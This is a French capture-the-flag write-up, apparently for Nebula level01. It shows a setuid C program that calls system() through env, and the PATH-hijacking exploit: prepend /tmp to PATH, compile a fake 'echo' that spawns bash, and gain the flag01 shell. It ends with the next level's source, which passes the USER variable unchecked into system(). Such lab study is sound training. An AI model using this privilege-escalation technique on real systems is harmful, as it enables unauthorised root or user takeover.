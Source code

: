 ## PATH VARIABLES
Il y a une vulnérabilité dans le programme ci-dessous qui permet l'exécution de programmes arbitraires, pouvez-vous la trouver ?
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```
Ici on voit que ce code execute un programme appele `env` et aussi `echo`
- Mais quand je demande ou sont stockees ces 2 programmes la sur ma machine
```sh
sh-4.2$ which env
/usr/bin/env
sh-4.2$ which echo
/bin/echo
```
Alors que si je revois ma variable PATH(*PATH est une variable d'environnement dans les systèmes d'exploitation Linux et Unix qui spécifie tous les répertoires `bin` et `sbin` dans lesquels sont stockés tous les programmes exécutables. Lorsque l'utilisateur exécute une commande sur le terminal, il demande au shell de rechercher les fichiers exécutables à l'aide de la variable PATH en réponse aux commandes exécutées par l'utilisateur. Le superutilisateur dispose généralement des entrées `/sbin` et `/usr/sbin` pour exécuter facilement les commandes d'administration du système.*)

```sh
sh-4.2$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Dans ce `PATH` j'ai ici plusieurs repertoires, mais plus importants pour moi est `:/bin:` et aussi `:/usr/bin:` car biensur le programme vulnerable execute des outils qui sont dans ces repertoires la

donc la j'ajoute un PATH et je cree un fichier executable
```sh
sh-4.2$ export PATH=/tmp:$PATH
sh-4.2$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games


```



```sh
#include <unistd.h>

int main()
{
system("bash");
}


level01@nebula:/tmp$ gcc -o echo echo.c 
level01@nebula:/tmp$ chmod +x echo
level01@nebula:/tmp$ /home/flag01/flag01 
flag01@nebula:/tmp$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
```


```sh
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```